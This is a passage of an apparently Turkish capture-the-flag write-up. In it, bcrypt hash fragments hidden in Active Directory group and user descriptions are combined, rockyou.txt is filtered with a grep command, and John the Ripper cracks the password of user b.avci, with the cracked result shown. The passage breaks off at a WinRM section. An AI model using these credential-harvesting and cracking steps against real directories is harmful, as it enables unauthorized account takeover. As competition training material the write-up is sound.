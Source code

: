dn: CN=Privileged Support,OU=Gruplar,DC=SKYDAYS,DC=SC
cn: Privileged Support
description: 8Tk0fE/ Key
memberOf: CN=IT,OU=Gruplar,DC=SKYDAYS,DC=SC

dn: CN=IT Admins,OU=Gruplar,DC=SKYDAYS,DC=SC
cn: IT Admins
description: Herhangi Bir Sorun Olursa IT Grubuna Devrettik Yetkiyi

dn: CN=Privileged Support (Backup),OU=Gruplar,DC=SKYDAYS,DC=SC
cn: Privileged Support (Backup)
description:: Backup için Privileged Support yetkileri sahip (2.3.2025)

dn: CN=Audit Team,OU=Gruplar,DC=SKYDAYS,DC=SC
cn: Audit Team
description: Tüm Sistemi Denetleme Yetkisi Kendi İçinde Dağıtılmştır

dn: CN=Audit Team Admins,OU=Gruplar,DC=SKYDAYS,DC=SC
cn: Audit Team Admins
description: Audit Team kritik bir grup sadece Admin yazma/okuma yetkisne sahip
memberOf: CN=Audit Team,OU=Gruplar,DC=SKYDAYS,DC=SC
```
Bu kullanıcılar ile grupları bir şema ile birleştirdiğimizde aşağıda tablo oluşuyor.

![](img/Tablo.bmp)

Bu tablo ile kullanıcılar ve grupların açıklamalarını incelediğimizde sistende bcrypt hashlerinin kullanıldığı öğreniyoruz ve sistemde en yetkili kullanıcıda b.avci olarak görünüyor. Buradan **IT** grubunun açıklamasına baktığımızda bcrypt hashinin ilk kısmını görüyoruz ```$2a$12$``` daha sonra bu gurunun altındaki ***Privileged Support*** grubunun açıklamasında bir hash parçası görüyoruz ```8Tk0fE/``` bu grubun içindeki **b.avci** kullanıcısınında açıklamasında bir hashin devamı olduğu görüyoruz ```PirMC3B3oARoTretI16N2tlmnB0kcB0PVn3zNPAolchStS``` bu hash parçalarını birleştirdiğimizde bütün bir bcrypt hashi elde ediyoruz.

# Hash Kırma Kısmı

**Elde ettiğimiz hash bcrypt olduğu için ve rockyou.txt dosyası içerisinde çok falza şifre bulunduğu için şifreyi daha hızlı kırabilmek için elimizdeki şifre dosyasını filtrelememiz gerekecek bunun için AD yapılarında bulunan özel bir trick'i kullancağız. AD yapılarında kullanıcı şifreleri her zaman en az bir sembol, bir küçük harf, bir büyük harf ve bir rakamdan oluşmak zorundadır bu bilgi ile elimizdeki rockyou.txt klasöründe filtreleme yaptığımızda hash kırma sürecini oldukça çok kısaltmış oluyoruz eğerki bu filtreleme trick'i kullanılmazsa hash kırma süreci yarışma süresi olan 20 saati bile geçebiliyor bcrypt hashi olduğu için.**

Filtreleme için kullanacağımız komut
```
grep -P '^(?=.*[a-z])(?=.*[A-Z])(?=.*[0-9])(?=.*[\W_]).*$' rockyou.txt >> passwd.txt
```
Ardından John ile ```b.avci:$2a$12$8Tk0fE/PirMC3B3oARoTretI16N2tlmnB0kcB0PVn3zNPAolchStS``` hashini kırdığımızda
```
john --format=bcrypt --wordlist=passwd.txt hash.txt    
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 14 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
*PUp1qzW         (?)     
1g 0:00:09:18 DONE (2025-03-20 01:26) 0.001789g/s 90.43p/s 90.43c/s 90.43C/s *WeNd0La..*N1ght1e
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
b.avci:*PUp1qzW kullanıcının şifresini bu şekilde elde ediyoruz.

# Winrm ve Disassembly Kısmı

```